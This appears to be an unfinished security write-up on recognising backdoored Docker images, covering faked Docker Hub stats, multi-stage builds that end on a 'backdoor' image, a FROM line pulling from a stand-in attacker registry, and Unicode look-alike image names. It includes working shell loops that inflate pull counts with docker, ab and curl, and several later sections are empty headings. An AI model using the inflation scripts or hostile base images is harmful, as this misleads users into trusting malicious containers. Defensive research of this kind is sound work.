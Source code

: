 # (WIP) Research on docker backdooring
Pantelis Roditis (09/07/2020)

For the past x years I've been developing docker containers that can be used in the right `wrong` way to emulate fully functional linux systemsm which is in stark contrast to how docker was meant to be used but anyways.

During this time I have come across a load of different types of suspicious docker containers from both docker hub and github projects.

Just like any other process of cybersecurity apply common logic when you are about to blindly trust an docker image, simply because it can be found on docker hub.

This following document includes research on what you shouldn't trust, the reason and hopefully an example of how it can be abused. This list is in no means complete, it is a documentation of what i look for when inspecting docker images from untrusted sources.


## Docker Hub stats
First and foremost don't trust stats provided by docker hub. The stars and pull requests can be easily manipulated to a huge degree.

If the image you're looking at has suspiciously high numbers of pulls and stars for its perceived reputation then something might be fishy.

In order to manipulate the pull numbers a malicious user could create an extremely small image, kilobytes in size and push it and then make pull requests to increase the number of pull requests. Some of the ways a bad actor can do that

**docker pull**

```sh
name="repo/image"
for i in $(seq 1 1000);do
  docker pull "${name}"
  docker rmi -f "${name}"
done
```


**ab (ApacheBenchmark)**
```sh
name="repo/image"
token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
ab -n 50 -c 10 -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest"
```

**curl**
```sh
for i in $(seq 1 50);do
  token=$( curl -s "https://auth.docker.io/token?service=registry.docker.io&scope=repository:${name}:pull" | jq -r .token )
  curl -s -H "Authorization: Bearer $token" "https://registry.hub.docker.com/v2/${name}/manifests/latest" >/dev/null
done
```

## The FROM statement
Usually one of the top most statements of a `Dockerfile`.  It is used to instruct docker to use another image as a base. Any following commands within the `Dockerfile` will be executed as if they were run from within a container of the imported image.

Usual tricks that can be found in this section include but not limited to the following


### Multi-stage builds

A `Dockerfile` can have more than one `FROM` statements. Import from a legitimate image, perform some tasks to confuse user and import a malicious image last to be executed.

```Dockerfile
FROM debian
RUN apt-get install curl bash
...
FROM backdoor
```

Although the image started with `FROM debian` it will end up running whatever `FROM backdoor` image has.

### Image with registry part
One of the things that `docker` will do for you is to parse as URL the image name. This means that the following statement is valid
```sh
FROM badregistry.attacker.io:443/repo/backdoor
```

Upon building this image docker will connect to `badregistry.attacker.io:443` and attempt to fetch the image `repo/backdoor`


### Unicode `FROM` image

Pay close attention at the FROM image names as Unicode characters can be used to make it look like it came from a legit repository.

* [IDN homograph attack](https://en.wikipedia.org/wiki/IDN_homograph_attack)
* [Unicode Bidirectional Text Spoofing](http://unicode.org/reports/tr36/tr36-8.html#Bidirectional_Text_Spoofing)


## The RUN statement

## The COPY/ADD statement

## The VOLUME statement

## The CMD statement

## The ENTRYPOINT statement

## The entrypoint.sh script

## Package manager repos

## Refs
* https://www.fortinet.com/blog/threat-research/yet-another-crypto-mining-botnet
* https://kromtech.com/blog/security-center/cryptojacking-invades-cloud-how-modern-containerization-trend-is-exploited-by-attackers
